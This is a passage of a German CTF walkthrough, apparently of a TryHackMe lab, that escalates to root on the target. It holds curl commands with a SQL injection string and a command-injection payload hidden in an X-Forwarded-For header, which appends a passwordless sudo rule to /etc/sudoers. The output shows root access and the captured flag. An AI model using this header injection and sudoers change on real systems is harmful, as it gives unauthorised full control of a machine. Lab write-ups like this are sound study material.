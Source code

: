 Versuchen wir mit curl einfach zu testen

```
kitty@kitty:/var/www/development$ curl 127.0.0.1:8080 -d "username=aaa' or 1=1-- -&password=aaa" -H "X-Forwarded-For: bumble"

SQL Injection detected. This incident will be logged!
kitty@kitty:/var/www/development$ cat logged
bumble

```

Folgenden Payload habe ich dann verwendet

```
kitty@kitty:/var/www/development$ curl 127.0.0.1:8080 -d "username=aaa' or 1=1-- -&password=aaa" -H "X-Forwarded-For: \$(echo 'kitty ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers)"

SQL Injection detected. This incident will be logged!
kitty@kitty:/var/www/development$ sudo -l
Matching Defaults entries for kitty on kitty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kitty may run the following commands on kitty:
    (ALL : ALL) NOPASSWD: ALL
kitty@kitty:/var/www/development$ sudo ls /root
logged  root.txt  snap
kitty@kitty:/var/www/development$ sudo cat /root/root.txt
THM{581bfc26b53f2e167a05613eecf039bb}

```